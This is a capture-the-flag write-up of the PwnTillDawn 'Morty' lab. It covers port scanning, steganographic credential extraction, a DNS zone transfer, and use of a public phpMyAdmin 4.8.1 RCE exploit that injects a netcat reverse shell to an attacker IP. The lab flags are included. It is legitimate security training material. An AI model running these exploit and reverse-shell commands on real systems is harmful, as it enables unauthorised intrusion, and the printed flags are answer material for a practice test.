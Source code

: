 ```yaml
---
categories: [PwnTillDawn]
tags: [Public Exploit, PrivEsc, subdomain]
image:
  path: /Vulnhub-Files/img/Morty/Untitled.png
  alt: Morty -> https://www.wizlynxgroup.com/ , https://online.pwntilldawn.com/
---
```



## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.57
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-05 16:22 IST
Nmap scan report for 10.150.150.57
Host is up (0.19s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e8:60:09:66:aa:1f:e8:76:d8:84:16:18:1c:e4:ee:32 (RSA)
|   256 92:09:d3:0e:f9:47:48:03:9f:32:9f:0f:17:87:c2:a4 (ECDSA)
|_  256 1d:d1:b3:2b:24:dc:c2:8a:d7:ca:44:39:24:c3:af:3d (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 147   2020-06-10 11:25  note.html
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

On port 80 I found directory Listing which consist of a file →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Morty/Untitled%202.png)

After setting the `/etc/hosts` file →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%203.png)

Now lets use this Web Page picture password in SSH , but no luck so I used this password in this picture to extract some data and I got it with this Password : `Fl4sk#!` →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ steghide extract -sf screen.jpeg
Enter passphrase: 
wrote extracted data to "keytotheuniverse.txt".
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ cat keytotheuniverse.txt 
rick:WubbaLubbaDubDub1!
```
{: .nolineno}

Now again I tried for SSH but no luck , what to do →

After sometime I looked for subdomain or subdomains and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ dig axfr @10.150.150.57 mortysserver.com 

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.150.150.57 mortysserver.com
; (1 server found)
;; global options: +cmd
mortysserver.com.	900	IN	SOA	10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
mortysserver.com.	900	IN	NS	10.150.150.57.
rickscontrolpanel.mortysserver.com. 900	IN A	10.150.150.57
mortysserver.com.	900	IN	SOA	10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
;; Query time: 187 msec
;; SERVER: 10.150.150.57#53(10.150.150.57) (TCP)
;; WHEN: Sat Aug 05 16:48:59 IST 2023
;; XFR size: 4 records (messages 1, bytes 212)
```
{: .nolineno}

Now I have 2 subdomains →

Lets look at them →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%204.png)

```bash
FLAG1=921e4db975bda77543cfe83fbe176d15e09ce7e2
```
{: .nolineno}

Now I used the rick credentials and got logged in and got the 2nd Flag too →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%205.png)

```bash
FLAG2=e39c995fbf614c5c38ca7343f59cc310e5880251
```
{: .nolineno}

Now I searched the phpmyAdmin exploit and I got it →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%206.png)

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ searchsploit phpMyAdmin 4.8.1
----------------------------------------------------------------------
 Exploit Title                                                                                |  Path
----------------------------------------------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                   | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                   | php/webapps/44928.txt
phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                                                | php/webapps/50457.py
----------------------------------------------------------------------
Shellcodes: No Results
```
{: .nolineno}

Now lets use the RCE exploit in this case →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ python 50457.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' whoami  
www-data
```
{: .nolineno}

Since it is working so lets upload the reverse shell script here →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ python 50457.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.66.67.202 4444 >/tmp/f'
```
{: .nolineno}

In response to that I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.66.67.202] from (UNKNOWN) [10.150.150.57] 40096
/bin/sh: 0: cant access tty; job control turned off
$ 
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ whoami
whoami
www-data
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$
```
{: .nolineno}

Now I got the last FLAG →

```bash
www-data@morty:/home/morty$ cat FLAG3.txt
cat FLAG3.txt
73ce6cecfc1109f1e43d379fd9922dcc699af321
www-data@morty:/home/morty$
```
{: .nolineno}

And I do not get to root since it doesnt give anything to get me to root so finish !!